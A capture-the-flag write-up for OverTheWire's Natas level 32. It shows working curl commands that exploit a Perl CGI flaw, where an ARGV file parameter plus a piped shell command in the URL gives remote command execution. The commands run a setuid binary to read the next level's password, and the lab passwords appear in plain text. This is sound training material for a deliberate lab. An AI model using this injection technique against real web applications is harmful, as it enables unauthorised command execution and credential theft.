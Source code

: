 ```yaml
---
category: natas
title: Natas32 - RCE and Privilege Escalation
---
```


website: http://natas32.natas.labs.overthewire.org/ (password: no1vohsheCaiv3ieH4em1ahchisainge)

This challenge is similar to the previous one with a major difference: The file <small>/etc/natas_webpass/natas33</small> is readable for root only.
However, with the parameter `?ls%20-l%20.%20|` in URL, we can see there is a binary file <small>getpassword</small> with `sid` set:

```shell
$ curl -u natas32:no1vohsheCaiv3ieH4em1ahchisainge "http://natas32.natas.labs.overthewire.org/index.pl?ls%20-l%20.%20\|" -F "file=ARGV" -F "file=@natas32.csv;type=text/csv"
...
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>total 164
</td></tr><tr><td>drwxr-x--- 5 natas32 natas32  4096 Dec 15  2016 bootstrap-3.3.6-dist
</td></tr><tr><td>-rwsrwx--- 1 root    natas32  7168 Dec 15  2016 getpassword
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32   235 Dec 15  2016 getpassword.c
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32   236 Dec 15  2016 getpassword.c.tmpl
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32  9667 Dec 15  2016 index-source.html
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32  2952 Dec 15  2016 index-source.pl
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32  2991 Dec 15  2016 index.pl
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32  2952 Dec 15  2016 index.pl.tmpl
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32 97180 Dec 15  2016 jquery-1.12.3.min.js
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32 16877 Dec 15  2016 sorttable.js
</td></tr><tr><td>drwxr-x--- 2 natas32 natas32  4096 Nov 12 17:31 tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

Note that in the above command, the form data `-F "file=ARGV"` must be ahead of the real file `-F "file=@natas32.csv;type=text/csv"` because the line `my $file = $cgi->param('file');` will take whatever comes first returned by `param('file')`.

Passing the URL a parameter `./getpassword%20|` will return natas33's password:

```shell
$ curl -u natas32:no1vohsheCaiv3ieH4em1ahchisainge "http://natas32.natas.labs.overthewire.org/index.pl?./getpassword%20|" -F "file=ARGV" -F "file=@natas32.csv;type=text/csv"
...
<table class="sortable table table-hover table-striped"><tr><th>shoogeiGa2yee3de6Aex8uaXeech5eey
```

